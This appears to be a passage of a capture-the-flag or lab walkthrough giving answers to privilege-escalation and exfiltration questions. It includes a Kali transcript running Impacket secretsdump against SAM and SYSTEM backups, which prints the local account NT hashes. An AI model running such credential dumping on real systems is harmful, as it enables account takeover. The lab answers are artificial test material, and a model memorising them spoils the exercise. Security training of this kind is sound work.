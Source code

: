 SeImpersonatePrivilege

**What is the Name (second column from the left) of this service?**

SystemExplorerHelpService

**Is the service running as the local system account (Aye/Nay)?**

aye

## Task 43 - AV Evasion Privilege Escalation

Has no questions that requires an answer.

## Task 44 - Exfiltration Exfiltration Techniques & Post Exploitation

**Is FTP a good protocol to use when exfiltrating data in a modern network (Aye/Nay)?**

nay

**For what reason is HTTPS preferred over HTTP during exfiltration?**

encryption

**What is the Administrator NT hash for this target?**

a05c3c807ceeb48c47252568da284cd2

```
┌──(root💀kali)-[/home/kali/Downloads]
└─# secretsdump.py -sam sam.bak -system system.bak LOCAL
Impacket v0.9.23.dev1+20210315.121412.a16198c3 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0xfce6f31c003e4157e8cb1bc59f4720e6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a05c3c807ceeb48c47252568da284cd2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:06e57bdd6824566d79f127fa0de844e2:::
Thomas:1000:aad3b435b51404eeaad3b435b51404ee:02d90eda8f6b6b06c32d5f207831101f:::
[*] Cleaning up... 
```
